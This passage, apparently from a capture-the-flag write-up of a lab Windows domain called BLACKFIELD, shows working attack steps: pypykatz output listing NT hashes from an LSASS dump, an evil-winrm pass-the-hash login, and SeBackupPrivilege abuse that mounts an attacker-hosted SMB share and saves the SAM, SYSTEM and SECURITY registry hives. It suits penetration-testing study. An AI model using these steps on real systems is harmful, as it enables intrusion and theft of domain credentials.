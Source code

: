Using something like `pypykatz`, which is Mimikatz implementation in pure Python
```bash
$ pypykatz lsa minidump lsass.DMP  -o lsass-dump-output

Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368

Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d

Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
```
PTH for `svc_backup`:
```bash
$ evil-winrm -i `IP` -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v2.3
*Evil-WinRM* PS C:\Users\svc_backup\Documents> type ..\desktop\user.txt
```

# Privesc
User `svc_backup` has SeBackupPrivilege and SeRestorePrivilege.
```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
Opening a smb share in kali and mounting it on windows:
```bash
$ smbserver.py -smb2support share . -username caretaker -password caretaker
---
C:> net use Z: \\10.10.14.5\share /u:caretaker caretaker
```
If `net use` command doesn't work, try using another drive letter or share name.
This will allow us to backup and access any files and folders on the system. The ``NTDS.dit`` file is the database for Active Directory that is present on all domain controllers. It stores hashes for all domain users as well information about other objects in the domain. These hashes can be extracted from the file by using the Impacket tool ``secretsdump.py``. The script also requires the ``SAM and SYSTEM registry`` hives in order to decrypt the file.
These hives can be exported using the ``reg save`` command.
```powershell
reg save HKLM\System System.hive
reg save hklm\sam Sam.hive
reg save HKLM\security Security.hive
```